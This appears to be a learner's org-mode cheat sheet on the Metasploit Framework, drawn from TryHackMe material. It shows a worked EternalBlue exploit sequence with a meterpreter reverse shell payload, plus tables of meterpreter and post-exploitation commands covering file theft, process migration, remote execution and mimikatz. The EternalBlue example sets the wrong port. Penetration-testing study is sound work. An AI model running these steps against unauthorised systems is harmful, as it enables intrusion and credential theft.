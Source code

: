 #+TITLE: Metasploit Framework
#+TAGS: :framework:metasploit:

	Metasploit is one of the most popular penetration testing frameworks around. It contains a large database of almost every major CVE, which you can easily use against a machine. (TryHackMe).

	#+begin_src shell
		sudo apt install metasploit-framework
	#+end_src

	*Example*

	`msfconsole -h` shows advanced options for starting the console, such as `--quiet`, `--output` or `--logger`.

	#+begin_src shell
		msfconsole
		search "eternal blue"
		use exploit/windows/smb/ms17_010_eternalblue
		set RHOSTS 192.168.1.1
		set RPORT 80
		set PAYLOAD windows/x64/meterpreter/reverse_tcp
		exploit
	#+end_src

* Resources

	https://tryhackme.com/room/rpmetasploit

* Core

 | Command | Description                                         |
 |---------+-----------------------------------------------------|
 | search  | Search modules                                      |
 | use     | Use module                                          |
 | info    | Display information on a module                     |
 | connect | Communicate with a host                             |
 | getg    | Get value of a global variable                      |
 | setg    | Set variable globally                               |
 | spool   | Write console output into a file as well the screen |

* Modules

	Metasploit consists of modules.

	 file:./images/metasploit-architecture.png]]

	Includes *most* of the interfaces and modules.

	- *Exploit*: holds of the exploit code
	- *Payload*: contains the various bits of shellcode sent to have executed following exploitation
	- *Auxiliary*: commonly used in scanning and verifing machines are exploitable
	- *Post*: provides looting and pivoting after exploitation
	- *Encoder*: utilized in payload obfuscation, allows to modify appearance of exploits to avoid signature detection
	- *NOP*: generates pad buffers

* Exploit module

** Options

| Name    | Description        | Example                |
|---------+--------------------+------------------------|
| RHOSTS  | Set target host(s) | set RHOSTS 192.168.1.1 |
| RPORT   | Set target port    | set RPORT 80           |
| payload | Set payload        | set payload <value>    |

* Sessions

| Flag | Description                            |
|------+----------------------------------------|
| -i   | Interact with the supplied sessions id |

* Meterpreter

	Meterpreter is metasploits own "control center" where you can do various things to interact with the machine. (TryHackMe)
	[https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/]

	Note: Regular shells can usually be upgraded to meterpreter shells by using the module post/multi/manage/shell_to_meterpreter.

	| Command    | Description                                                               |
	|------------+---------------------------------------------------------------------------|
	| sysinfo    | Get system's information                                                  |
	| getuid     | Get the user the server is running as                                     |
	| getprivs   | Attempt to enable all privileges available to the current process         |
	| download   | Download a file from the machine                                          |
	| upoad      | Upload a file to the machine                                              |
	| ps         | List all running processes                                                |
	| migrate    | Change processes on the victim                                            |
	| ls         | List files in the current directory on the machine                        |
	| execute    | Execute a command on the remote host                                      |
	| load       | Load an extension                                                         |
	| shell      | Start an interactie shell on the remote host                              |
	| search     | Search files on the remote                                                |
	| cat        | Output file on the remote                                                 |
	| background | Put meterpreter shell in the background (allows to run other msf modules) |

** Post-exploitation modules

	- post/windows/gather/checkvm
	- post/multi/recon/local_exploit_suggester
	- post/windows/manage/enable_rdp

** Extensions

	 | Name | Description |
	 |------+-------------|
	 | kiwi | mimikatz    |
